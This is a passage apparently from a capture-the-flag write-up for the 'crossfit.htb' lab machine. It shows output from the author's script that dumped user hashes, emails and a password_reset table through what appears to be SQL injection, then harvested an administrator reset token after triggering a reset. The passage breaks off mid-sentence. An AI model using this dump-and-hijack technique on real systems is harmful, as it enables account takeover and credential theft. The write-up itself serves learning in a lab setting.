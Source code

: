 ```bash
============================================================
  1: 1 | administrator | fff34363f4d15e958f0fb9a7c2e7cc550a5672321d54b5712cd6e4fa17cd2ac8 | david.palmer@crossfit.htb
  2: 2 | wsmith | 06b4daca29092671e44ef8fad8ee38783b4294d9305853027d1b48029eac0683 | will.smith@crossfit.htb
  3: 3 | mwilliams | fe46198cb29909e5dd9f61af986ca8d6b4b875337261bdaa5204f29582462a9c | maria.williams@crossfit.htb
  4: 4 | jparker | 4de9923aba6554d148dbcd3369ff7c6e71841286e5106a69e250f779770b3648 | jack.parker@crossfit.htb

[+] Total rows found: 4

----------------------------------------
TABLE: employees.password_reset
----------------------------------------
[*] Enumerating columns in password_reset...
[+] Found columns: email, token, expires

[*] Extracting data from password_reset...

[+] Data from password_reset:
============================================================
Columns: email | token | expires
============================================================
  1: 1-month

[+] Total rows found: 1
```

I tryied to crack this four hashes but nothing came up. I then remembered that in the `employees` subdomain there was an option to put an email to reset the password. Now that we have the admin email here we can try that out.

When putting this email to reset the password it says: `Reset link sent, please check your email.`.

So, a reset link is active right now to change the admin password for the website, but we can’t send a phishing or something to test that out. 

But, in our automated script we can see that we got only one entry on the `password_reset` table, maybe if we run it again we can have something else.

```bash
[+] Data from password_reset:
============================================================
Columns: email | token | expires
============================================================
  1: david.palmer@crossfit.htb | 9838ed910a751d1777e165a28d171d9acdd80a8d9407e5393cd9aa8d72b74591 | 2025-07-07 16:38:26

[+] Total rows found: 1
```

But, when we visit the token on the website we get the following message:
